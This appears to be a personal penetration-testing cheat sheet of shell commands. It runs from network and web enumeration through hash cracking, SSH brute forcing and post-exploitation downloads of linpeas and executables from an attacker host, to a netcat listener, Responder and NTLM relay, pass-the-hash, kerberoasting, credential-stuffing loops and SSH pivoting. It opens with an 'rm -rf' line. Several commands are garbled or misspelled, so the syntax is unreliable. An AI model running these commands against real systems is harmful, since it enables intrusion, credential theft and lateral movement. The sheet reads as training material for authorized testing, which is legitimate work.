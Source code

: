 ## General

rm -rf /path/to/directory

## Enumeration  

ip a  

arp-scan -l

showmount -e [server ip]

mount -t nfs [server ip]:[remote path shown from showmount] [to local mount point]

nmap -sV -A -T4 -p- 

nmap -sV -A -T4 --top-ports 500 [target]

nmap --sC ? 

nmap -p- --script vuln [target]

nmap --top-ports 500 --script vuln [target]

(Example when providing a txt based file to scan -iL 'inlist' must be used)  
nmap -p 445 -iL targets.txt

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -v | grep "Status: 200"

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error

assetfinder example.com

assetfinder --subs-only example.com

(directory hunting) ffuf -u http://localhost/capstone/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .php -v | grep FUZZ 

python -V 

## Web Enumeration

Curl -I http://[target]

nikto -h http://[IPaddress:8080]

## DNS enumeration (workflow)

dig -x [IP]

nslookup [IP]

dnsrecon -r [IP range/24]

dnsrecon -r [target IP range/24 it belongs to] -n [targetIP]

## Cracking
Zip files: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt [target.zip]

NTLM# hash: hashcat -m 5600 file.txt /usr/share/wordlists/rockyou.txt --force

    ntlm# will dictate the specific module -m required to be set for the cracking.  
    in virtual machine intances --force may be required.  
    if a password has already been cracked it may reside in the potfile on --show

hash-identifier

## Brute forcing
Hydra

nmap -p 22 --script ssh-brute --script-args="userdb=/path/to/username_wordlist.txt,passdb=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt" 192.168.64.137


## Linux Post Exploitation
history

pwd

sudo -l

crontab -l

##Linux wget and curl command

wget http://192.168.64.137:8000/linpeas.sh -O linpeas.sh

🔼 Upgrading to an interactive shell using python  
python -c 'import pty; pty.spawn("/bin/bash")'

## Windows Post Exploitation
cd

whoami

ipconfig

dir

sc stop [application]

sc start [application]

sc query [application]

certutil.exe -urlcache -f http://[attackerip]:8000/[application.exe] [applicationname.exe]

## Listener
nc -nlvp [port]

## Directory hosting
python2 - python -m SimpleHTTPServer

python3 - python3 -m http.server 8080

## Active Directory Attacks  

sudo responder -I tun0 -dwP | tun0 here is used when we are getting access via VPN

(Captures) LLMNR attacks  
sudo responder -I eth0 -dwv  

(Relays) SMB attack  
sudo responder -I eth0 -dPv  

(Relay authentication into targets | -i interacive shell | -c command execution)  
Impacket-ntlmrelax -tf targets.txt -smb2support -i 

(PtH with crackmapexec)  
crackmapexec smb 10.10.10.0/24 -u username -H aad3b435b51404eeaad3b435b51404ee:31dcfce0d16ae931b73c59d7e0c089c0  

(PtP with crackmapexec)  
crackmapexec smb 10.10.10.0/24 -u username -p 'password'  

(Enumerate service principile names with their krbtgs (kerberos ticket granting service hash) - useful in AD envs when SPN objects are not set to read only.  
Impacket-GetUserSPNs -dc-ip <10.10.10.0> domain/username:password -request  

**Identify hosts without SMB signing:** nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -Pn  
In the event initial scanning of a known target presents no results adding -Pn will still scan the target and provide information regardless. 
  
## Bash; 'for' loops  

for in X variable varibale varibale; do COMMAND_LINE_ACTION $X; done  

(Example IP scan without text file list - ideal for small list, any large lists just use a .txt file)  
for ip in 10.10.10.1 10.10.10.2 10.10.10.3; do nmap -T4 -sV -A --top-ports 500 $ip; done  

(Example crackmap SMB enumeration - ideal for small list, any large lists just use a .txt file for username and passwords)  
for ip in 10.10.10.1 10.10.10.2 10.10.10.3; do crackmapexec smb $ip -u username -p 'password'; done  

(Example crackmap SMB credential 'sniper' stuffing password - small list)  
for ip in 10.10.10.1 10.10.10.2 10.10.10.3; do for in user Admin Administrator Username; do crackmapexec smb $ip -u $user -p password --local-auth; done; done  

(Example using .txt files within 'for' loops of crackmap SMB auth) - note: when using files for crackmapexec -P must be used instead of -p  
for user in Admin Administrator Username; do crackmapexec smb 10.10.10.1 -u $user -P passwordfile.txt --local-auth; done  

## RDP  

xfreerdp - xfreerdp /u:Administrator /p:'Password' /v:10.10.10.1

## Pivoting  

proxychains / conf files located at /etc/proxychains.conf  
ssh tunnel throuhg 155.5, with connectioned dropped in the background.
ssh -f -N -D 9050 -i encrypted_rsa1.key adminuser@10.10.155.5

shuttle  

chisell  


